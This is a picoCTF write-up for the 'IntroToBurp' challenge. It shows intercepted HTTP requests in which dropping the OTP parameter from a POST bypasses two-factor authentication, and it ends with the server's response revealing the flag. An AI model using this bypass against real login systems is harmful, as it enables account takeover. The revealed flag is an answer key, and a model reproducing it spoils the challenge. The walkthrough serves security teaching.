 # IntroToBurp (100 points)
Try [here](http://titan.picoctf.net:53988/) to find the flag

## Solution
We find a registering page if we connect to the website:
![Registration](./images/registration.png)

If we fill out this data and submit we will be redirected to 2-FA authentication check:
![OTP](./images/otp.png)

Both site create a POST request with our given data. But the second is interesting for us:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:53467
Content-Length: 4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:53467
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:53467/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jcEOwiAQRP-FswegpYg_Q7awG40tEBZijPHfxR56m3mTmfmI8GhvcRMUgcVFBK7kW35iGixeSYEDF7WNqKWaZZALKVqADJKdcQ3SSu1Gj_q2-QQ7HlMD5FaG1MbM0zRsAeZXrvGI_0flnhP61PcV6wk7Yz1HGMT3BybNMRU.ZfmHFA.kRaIW1wVvT4yFy-IED_2MaUvy2Q
Connection: close

otp=test
```

We can either interrupt the request and manipulate it before forwarding it, or we can send it in Burp to the Repeater, manipulate and resend it to the server.

The goal is probably to get a valid OTP code or to bypass it. I tried several inputs but nothing was successful. Than I tried to remove the key `opt=` entirely:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:53467
Content-Length: 4
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:53467
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:53467/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jcEOwiAQRP-FswegpYg_Q7awG40tEBZijPHfxR56m3mTmfmI8GhvcRMUgcVFBK7kW35iGixeSYEDF7WNqKWaZZALKVqADJKdcQ3SSu1Gj_q2-QQ7HlMD5FaG1MbM0zRsAeZXrvGI_0flnhP61PcV6wk7Yz1HGMT3BybNMRU.ZfmHFA.kRaIW1wVvT4yFy-IED_2MaUvy2Q
Connection: close


```

And that worked. The flag is in the response:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
Date: Tue, 19 Mar 2024 12:39:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 105
Vary: Cookie
Connection: close

Welcome, fdsa you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_2e80f1fd}
```

